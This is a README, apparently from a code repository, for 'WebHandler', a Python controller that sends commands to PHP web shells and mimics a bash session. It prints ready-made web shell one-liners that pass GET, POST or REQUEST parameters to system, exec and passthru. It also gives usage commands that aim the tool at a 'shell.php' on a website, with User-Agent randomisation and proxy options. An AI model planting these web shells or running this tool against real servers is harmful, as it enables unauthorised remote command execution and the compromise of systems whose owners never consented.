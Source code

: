 WebHandler - command controller for PHP system function
---
![My image](http://s11.postimage.org/nq2hdsvpf/webhandler.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...  
The script tries to simulate Linux bash as it works from CLI.  
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".  
It sends requests to the server through urllib/urllib2 [Python][] modules.  

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080


__Requirements__
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.  
To install it run: `sudo apt-get install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`  

[readline][] **is optional**.  
This module it used to provide elaborate line editing and history features

[git][] **is optional**.  
This allows for the project to be kept up-to-date

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
